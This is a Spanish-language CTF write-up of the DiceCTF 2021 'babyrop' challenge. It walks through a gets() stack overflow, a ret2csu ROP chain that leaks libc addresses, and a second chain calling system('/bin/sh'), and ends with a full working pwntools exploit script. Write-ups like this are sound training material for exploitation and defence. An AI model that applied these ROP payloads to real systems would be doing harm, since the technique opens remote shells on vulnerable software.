 ```yaml
---
layout: post
title: diceCTF babyrop
date: 2021-02-09 13:59
comments: true
categories: [Sin categoría]
---
```


Hola, ya que he decidido migrar mi página github pages,y para pastor este 2021, aprovecharé de hacer un write up de un binario que hice el fin de semana en [DICECTF 2021.](https://ctf.dicega.ng/) La parte de pwn estuvo bien buena. Solo alcance a hacer este rop y un heap a medias, pero al menos sirvió para mantener la práctica. 

El binario en cuestión podemos ver que es de 64bit, puedes descargarlo de [aca](https://github.com/dplastico/heap_stream/blob/main/babyrop)  no tiene RELRO ni PIE, lo cual hace las cosas bastante sencillas. Eso sí, debemos considerar que probablemente ASLR si está habilitado en el sistema con lo que de todas formas necesitaremos de un leak.

![Imgur](https://i.imgur.com/wtXtqAk.png)

Al revisar las funciones vemos que ocupa la función [gets](https://linux.die.net/man/3/gets) (ya sabemos que esto lleva a buffer overflow), pero solo ocupa adicional a esto la función de [write](https://man7.org/linux/man-pages/man2/write.2.html) para imprimir en pantalla.

![Imgur](https://i.imgur.com/7xWpbFq.png)

Considerando esto nuestro plan de explotación será el siguiente:

- Generar un Overflow y usar ROP para “lekear” una dirección de LIBC
- Identificar la version de LIBC
- Calcular los offsets necesarios
- Volver a generar un Buffer Overflow esta vez llamar a system y obtener una shell


Para obtener el leak el plan es generar un ROP y hacer un llamado a la función de write, podemos observar los parámetros que usa este syscall en el siguiente [link](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/). En resumen debemos ubicar en el registro RDI el file descriptor 1 (stdout), la dirección  que queramos “lekear” en RSI (en este caso usaremos la dirección GOT de gets y write) y en el registro RDX debemos darle un valor que usará para definir cuántos bytes se imprimirán en pantalla. Por lo mismo debemos considerar para esto al menos 8 bytes.

Podemos usar [ropper](https://github.com/sashs/Ropper) para mostrar los gadgets del binario y no tener que hacer una búsqueda manual, pero vemos que no hay forma de controlar el valor de rdx

![Imgur](https://i.imgur.com/DngI1xm.png)

Pero! Por eso mismo siempre les recomiendo revisar el binario de manera manual, por que en este caso podemos ocupar una técnica conocida como ret2csu. 

Puedes leer una descripción más detallada [acá](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf), pero en resumen, usando esta técnica podemos encontrar ciertos “gadgets universales” que nos permiten controlar determinados registros haciendo uso de estas funciones que siempre se cargan en un ELF producto de la compilación. En este caso usaremos la funcion __lib_csu_init

![Imgur](https://i.imgur.com/lzcqURc.png)

Podemos observar que somos capaces usar un pop al registro R14 en la dirección 0x4011d0 y luego mover con “MOV rdx, r14” en 0x4011b0 el valor al registro RDX. Además el mismo gadget nos permitirá usar R15 y R13 para poder situar los valores de RSI y EDI (4 bytes de RDI).

Para que esto funcione debemos primero agregar los registros necesarios en nuestro “ropchain” de tal manera que pase el check en 0x4011c4 y hacer que el call, llame a write directamente por lo cual debemos asegurarnos que el valor de write este en  0x4011b9 call   QWORD PTR [ r15+rbx*8 ] 

```python
payload = b"A"*0x48 #overflow a los 72 bytes
payload += p64(0x4011ca) #pop a registros
payload += p64(0)#rbx
payload += p64(1)#rbp
payload += p64(1)#r12 --> edi
payload += p64(elf.got.gets) #r13 --> rsi
payload += p64(8)#r14 ---> rdx
payload += p64(elf.got.write) #r15
payload += p64(0x04011b0) # escribiendo en RDX RSI Y EDI
payload += p64(0)*7 # --> los pop nuevamente
payload += p64(elf.sym.main) #para retornar a main y hacer un segundo bof
```

Si enviamos esto podemos lekear las direcciones de gets y write

![Imgur](https://i.imgur.com/ddj0QHq.png)

![Imgur](https://i.imgur.com/ddj0QHq.png)

Con esto podemos buscar una versión de libc remota que coincida y de esa forma podemos calcular los offsets. Para esto ocupare [esta DB](https://libc.blukat.me/)

![Imgur](https://i.imgur.com/aUoas6M.png)

Vemos que coincide con la versión, la 2.31 , podríamos descargarla pero dado que esta pagina nos entrega los offset a system y al string de "/bin/sh" dentro de glibc, pues probaremos con esto en nuestro segundo payload, de la siguiente forma:

```python
payload = b"A" * 72 #overflow
payload += p64(poprdi) #pop rdi en el binario
payload += p64(libc.address+0x1b75aa) #string de /bin/sh a RDI como primer arg
payload += p64(ret) #ret para alinear el stack a 16 bytes (ubuntu)
payload += p64(libc.address+0x055410) #direccion de system
```
Con esto ejecutamos y listo! Tenemos una shell.

![Imgur](https://i.imgur.com/trApFwN.png)

Espero que les haya gustado, este fue el único exploit que pude terminar en el CTF tuve mucho que hacer y los retos no estaban tan fáciles. Aun asi ya he hechos desafíos para Q4 que ocupan esta técnica, por lo cual me pareció valido mostrar como funciona. Espero les haya gustado, aca les dejo el exploit final:

```python
#!/usr/bin/python3
from pwn import *
gs = '''
continue
'''
elf = context.binary = ELF('./babyrop')
context.terminal = ['tmux', 'splitw', '-hp', '70']
libc = elf.libc

def start():
    if args.GDB:
        return gdb.debug('./babyrop', gdbscript=gs)
    if args.REMOTE:
        return remote('dicec.tf', 31924)
    else:
        return process('./babyrop')
r = start()
r.timeout = 0.3
#========= exploit here ===================

poprdi = 0x4011d3
ret = 0x040116b

payload = b"A"*0x48 #overflow a los 72 bytes
payload += p64(0x4011ca) #pop a registros
payload += p64(0)#rbx
payload += p64(1)#rbp
payload += p64(1)#r12 --> edi
payload += p64(elf.got.gets) #r13 --> rsi
payload += p64(8)#r14 ---> rdx
payload += p64(elf.got.write) #r15
payload += p64(0x04011b0) # escribiendo en RDX RSI Y EDI
payload += p64(0)*7 # --> los pop nuevamente
payload += p64(elf.sym.main) #para retornar a main y hacer un segundo bof

r.sendlineafter("name:", payload)

leak = u64(r.recvuntil("Your").split(b"Your")[0][1:7].ljust(8,b"\x00"))  #remote offset
libc.address = leak - 0x086af0
log.info(f"leak = {hex(leak)}")
log.info(f"libc remote = {hex(libc.address)}")

payload = b"A" * 72 #overflow
payload += p64(poprdi) #pop rdi en el binario
payload += p64(libc.address+0x1b75aa) #string de /bin/sh a RDI como primer arg
payload += p64(ret) #ret para alinear el stack a 16 bytes (ubuntu)
payload += p64(libc.address+0x055410) #direccion de system

r.sendlineafter("name:", payload)  #!!

#========= interactive ====================
r.interactive()
```